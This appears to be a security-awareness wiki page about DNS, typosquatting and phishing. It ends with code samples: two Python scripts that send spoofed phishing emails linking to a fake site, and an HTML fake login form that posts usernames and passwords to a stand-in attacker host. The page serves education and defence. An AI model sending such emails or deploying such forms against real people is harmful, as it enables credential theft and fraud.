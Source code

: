 ```yaml
---

layout: col-sidebar
title: Phishing Attacks and How to Mitigate
author: 
contributors: Chenna Rao Vemula
permalink: /MyPageTitle
tags: DNS, Typosquatting, Phishing

---
```


{% include writers.html %}

## DNS Infrastructure
## What Is DNS
The acronym DNS stands for “Domain Name System”.
To better relate to this you can think of it as an “address book” where you look up a name that is tied to a unique address that you use for communicating with an individual, however this “address book” is for the internet and when you enter a domain name into a browser, it will be translated to the tied unique IP address which it will use to communicate to a machine and serve up content that is hosted on it The process of translating a domain to an IP address is known as a DNS lookup. DNS lookups are performed by dedicated servers called DNS resolvers. Your Wi-Fi router is typically preconfigured to send DNS queries to the resolver owned by your ISP. However, you can choose to configure your router, operating system, or browser to use a different resolver.
## Components of DNS Infrastructure
1.	DNS Servers: These are the backbone of DNS. DNS servers come in various types, such as recursive resolvers and authoritative servers. Recursive resolvers act like your personal investigators, fetching IP addresses on your behalf. Authoritative servers, on the other hand, have the answers. They hold the official records for a specific domain, and they’re the ones you turn to when you need the precise IP address for a particular website.
2.	DNS Resolvers: Think of DNS resolvers as your web browsers’ trusty assistants. When you type in a website address, the resolver is the first to spring into action. It contacts DNS servers to find the IP address for the site you want to visit. This crucial step ensures you reach your desired destination on the web.
The role of DNS records and Zone files:
1.	DNS Records: If DNS is the backbone, DNS records are the words in the backbone’s language. These records store essential information, like IP addresses, mail server data, and aliases. Common record types include A (Address), CNAME (Canonical Name), and MX (Mail Exchange). These records tell DNS servers where to send your requests and emails and how to find websites.
2.	Zone Files: Imagine zone files as the organizers of the DNS library. Each domain has its zone file, which contains records that point to where the data for that domain is stored. These files are managed by domain administrators and provide authoritative DNS servers with the information they need to resolve queries for that domain. Zone files are essential for the smooth operation of DNS.
## Challenges
## Typosquatting
Typosquatting is when someone registers a domain name that is an intentionally misspelled version of another popular website. While many misspelled URLs won’t work or will redirect you, some of these fake websites that look real might be a source of malware, and visiting them could even lead to identity theft. Threat actors create and register domains similar to popular websites but with common typographical errors to exploit unsuspecting users who mistype URLs. The technique is similar to lookalike domains. But unlike lookalike domains in which attackers register domains that look confusingly similar to those of trusted brands typosquatting tries to cash in on users’ clumsiness with their keyboard.
## IP Infringement
Intellectual property (IP) infringement is the unauthorized use of a protected intellectual property right, such as a trademark, patent, copyright, industrial design, plant breeder’s right, or trade secret. Although intellectual-property infringement can be unintentional, it still unacceptable under the eyes of the law. The most common examples of intellectual property disputes include using another person’s words, images, or logo without the property owner’s permission
## Phishing
Phishing is a common type of cyber-attack that targets individuals through email, text messages, phone calls, and other forms of communication. A phishing attack aims to trick the recipient into falling for the attacker’s desired action, such as revealing financial information, system login credentials, or other sensitive information. As a popular form of social engineering, phishing involves psychological manipulation and deception whereby threat actors masquerade as reputable entities to mislead users into performing specific actions. These actions often involve clicking links to fake websites, downloading and installing malicious files, and divulging private information, like bank account numbers or credit card information.

![Phishing](https://github.com/cvemula1/publish/blob/91d2b368da77d1d398f5370413fd2db4ab6c7adf/Screenshot%202025-01-20%20011021.jpg)
## How does phishing works
Phishing works by sending messages that look like they are from a legitimate company or website. Phishing messages will usually contain a link that takes the user to a fake website that looks like the real thing. The user is then asked to enter personal information, such as their credit card number. This information is then used to steal the person’s identity or to make fraudulent charges on their credit card
                             
![working](https://github.com/cvemula1/publish/blob/91d2b368da77d1d398f5370413fd2db4ab6c7adf/phising.jpg)
## Types of Phishing attacks
## Spear phishing
Spear phishing involves targeting a specific individual in an organization to try to steal their login credentials. The attacker often first gathers information about the person before starting the attack, such as their name, position, and contact details.
## Email Phishing
Email phishing is a common technique used by attackers to trick individuals into providing sensitive information by pretending to be a trustworthy entity.
## Website Phishing
Website phishing is a method used by attackers to create fake websites that mimic legitimate ones to trick users into divulging sensitive information, such as login credentials or financial details.


# Example of TypoSquatting
```python
domain = "legit-website.com"
phishing_domain = domain.replace("i", "l")  # Replacing 'i' with 'l'
print(phishing_domain)  # Outputs: "leglt-website.com"```





# Example of Spear Phishing Email Code
```python
import smtplib
from email.mime.text import MIMEText

def send_spear_phishing_email(target_name, target_email):
    sender = "fake@legitcompany.com"
    subject = f"Important Update for {target_name}"
    body = f"Dear {target_name},\n\nPlease click the link to update your account information: http://fake-website.com"

    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = target_email

    with smtplib.SMTP('smtp.example.com') as server:
        server.login("username", "password")
        server.sendmail(sender, target_email, msg.as_string())```

# Example of Phishing Email Code
```python
import smtplib
from email.mime.text import MIMEText

def send_phishing_email():
    sender = "fake@legitcompany.com"
    recipient = "victim@example.com"
    subject = "Important Update"
    body = "Please click the link to update your account information: http://fake-website.com"

    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = recipient

    with smtplib.SMTP('smtp.example.com') as server:
        server.login("username", "password")
        server.sendmail(sender, recipient, msg.as_string())

# Example of Website Phishing
```html
<!-- Example of a fake login page -->
<html>
<head>
    <title>Fake Login Page</title>
</head>
<body>
    <h1>Login</h1>
    <form action="http://fake-website.com/submit" method="post">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username"><br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password"><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>```
 

